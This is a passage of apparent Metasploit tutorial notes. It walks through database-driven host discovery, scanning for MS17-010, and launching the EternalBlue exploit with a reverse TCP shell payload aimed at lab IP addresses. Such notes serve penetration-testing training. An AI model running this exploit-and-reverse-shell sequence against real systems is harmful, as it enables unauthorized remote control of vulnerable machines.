 You can populate module RHOSTS from DB results:
```
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > hosts -R
# populates RHOSTS => <hosts from DB>
```

## Vulnerability scanning & workflow example

### Flow

1. `db_nmap` to discover hosts/services and save to DB
2. `services -S <service>` to find interesting services (e.g., netbios, http)
3. Use specific scanners (SMB, VNC, FTP, etc.) to enumerate further.
4. Use exploit modules based on identified services/vulns.

### Example scanning for MS17-010

```
msf6 > db_nmap -sV 10.10.12.229
msf6 > use auxiliary/scanner/smb/smb_ms17_010
msf6 auxiliary(scanner/smb/smb_ms17_010) > hosts -R
msf6 auxiliary(scanner/smb/smb_ms17_010) > run
```

## Exploit selection, payloads & options

### Search and use
```
msf6 > search ms17-010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
```

### Show options
```
msf6 exploit(...) > show options
# Common options: RHOSTS, RPORT, SMBUser, SMBPass, VERIFY_ARCH, VERIFY_TARGET
# Payload options section: e.g., LHOST, LPORT for reverse payloads
```

### Show payloads compatible with an exploit
```
msf6 exploit(...) > show payloads
```

### Set payload and options
```
msf6 exploit(...) > set payload generic/shell_reverse_tcp
msf6 exploit(...) > set LHOST 10.10.186.44
msf6 exploit(...) > set LPORT 4444
msf6 exploit(...) > set RHOSTS 10.10.12.229
msf6 exploit(...) > exploit
```
